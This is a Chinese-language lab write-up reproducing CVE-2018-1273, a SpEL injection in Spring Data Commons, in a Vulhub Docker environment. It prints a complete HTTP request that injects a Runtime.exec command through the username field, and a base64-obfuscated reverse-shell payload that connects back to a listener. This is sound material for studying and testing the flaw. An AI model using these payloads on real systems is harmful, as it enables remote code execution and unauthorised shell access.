



# Spring Data Commons 远程命令执行漏洞 CVE-2018-1273

## 漏洞描述

Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 在 2.0.5 及以前版本中，存在一处 SpEL 表达式注入漏洞，攻击者可以注入恶意 SpEL 表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

Vulhub 执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问 `http://your-ip:8080/users`，将可以看到一个用户注册页面。



## 漏洞复现

参考前面链接中的 Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/awesome_poc")]=&password=&repeatedPassword=
```



执行 `docker-compose exec spring bash` 进入容器中，可见成功创建 `/tmp/awesome_poc`，说明命令执行成功：



构造反弹 shell 的 Payload（**注意**，Base64 编码后需要再进行 URL 编码，否则将反弹失败）：

```
# URL编码前
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# URL编码后
bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}
```

```
# Payload
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
```

监听 9999 端口，成功接收反弹 shell：


